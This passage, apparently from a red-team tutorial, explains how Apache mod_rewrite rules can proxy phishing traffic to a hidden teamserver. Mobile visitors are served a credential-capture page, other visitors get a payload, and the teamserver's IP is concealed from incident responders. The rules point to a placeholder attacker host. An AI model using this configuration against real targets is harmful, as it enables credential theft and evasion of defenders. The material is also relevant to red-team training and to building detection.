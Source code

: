 ```bash
a2enmod rewrite proxy proxy_http 
```

All of the examples below are made to be run in the Directory context, so it's recommended that you place the rulesets in a .htaccess file within the web server's root directory. htaccess files should have permissions of 644.

*Update for clarity: You will need to restart the apache2 service after enabling or disabling Apache modules. a2enmod may require sudo rights, depending on your configuration.*

{:#user-agent-redirection}

# User Agent Redirection

User agent redirection allows us to gain more value from phish targets using mobile devices, redirect browsers that are buggy or incompatible with a chosen payload, and combat incident responders. In the demo below, the user visits the same URL with a standard workstation Firefox user agent and is served a payload designed for workstations. If the user browses to the URL with a mobile user agent, such as iPhone 3.0, a credential capture is served.

![Mobile User Agent Redirection Demo](/assets/apache/user-agent-demo.gif)

This ruleset will match any user whose browser user agent matches the regex of common mobile browsers and proxy the original request to the hardcoded mobile profiler hosted on a teamserver. All other requests are proxied as-is to our teamserver. To reiterate a point made above, this means the end-users (and IR) will not see our teamserver's real IP - only the one belonging to the Apache server.

<div style="background-color:rgb(39,40,34);color:rgb(248,248,242);font-size:.85em;overflow-x:scroll;white-space: nowrap;padding:6px;">
RewriteEngine On<br>
RewriteCond <span style="color: dodgerblue">%{HTTP_USER_AGENT}</span> <span style="color: mediumseagreen">"android|blackberry|googlebot-mobile|iemobile|ipad|iphone|ipod|opera mobile|palmos|webos"</span> <span style="color: mediumpurple">[NC]</span><br>
RewriteRule <span style="color: gold">^.*$</span> <span style="color: orange">http://TEAMSERVER-WAN-IP/MOBILE-PROFILER-PATH</span> <span style="color: tomato">[P]</span><br>
RewriteRule <span style="color: gold">^.*$</span> <span style="color: orange">http://TEAMSERVER-WAN-IP</span><span style="color: dodgerblue">%{REQUEST_URI}</span> <span style="color: tomato">[P]</span>
</div>
